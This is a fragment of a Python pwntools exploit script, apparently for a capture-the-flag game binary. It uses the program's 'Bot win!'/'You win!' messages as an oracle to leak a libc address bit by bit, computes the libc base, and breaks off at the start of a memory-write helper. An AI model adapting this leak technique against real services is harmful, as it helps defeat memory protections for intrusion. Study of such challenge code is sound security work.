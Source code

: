 ```python
    p.sendlineafter(b"Bot number: ",str(bot))
    p.sendlineafter(b"Player number: ",str(play))

libc=0x7000000955c2
leak_1bit_number_libc=0x7000000955c2+1
num=1

for i in range(48,64):
    tmp=leak_1bit_number_libc
    tmp=tmp|1<<i 

    simulate("-",tmp)
    result=p.recvuntil(b"!")
    if b"Bot win!" in result:
        num=num+1
        leak_1bit_number_libc=leak_1bit_number_libc|1<<i 
    if b"You win!" in result:
        num=num+1
        leak_1bit_number_libc=(leak_1bit_number_libc-1)|1<<i |1<<(i+1) 
        print("1bit_num",num)
        break

use_num=0
libc=leak_1bit_number_libc

max_num=num

for i in range(20,44): 

    if use_num==max_num-1:
        tmp=libc
        tmp=tmp&~(1<<44)
        print("& libc",hex(tmp))
        tmp=tmp|1<<i 
        print("try libc",hex(tmp))

        simulate("-",tmp)
        result=p.recvuntil(b"!")

        if b"Bot win!" in result:
            print("leak finish")
            libc=tmp|(1<<44)
            libc=libc&~(1<<(use_num+48)) 

            break
        continue
    tmp=libc
    tmp=tmp&~(1<<(use_num+48)) 
    print("& libc",hex(tmp))
    tmp=tmp|1<<i 
    print("try libc",hex(tmp))
    simulate("-",tmp)
    result=p.recvuntil(b"!")

    if b"Bot win!" in result:
        print("success libc bit",hex(tmp))
        libc=tmp
        use_num=use_num+1

libc_base=libc-0x955c2

def write_64(content):
    for i in range(64):
```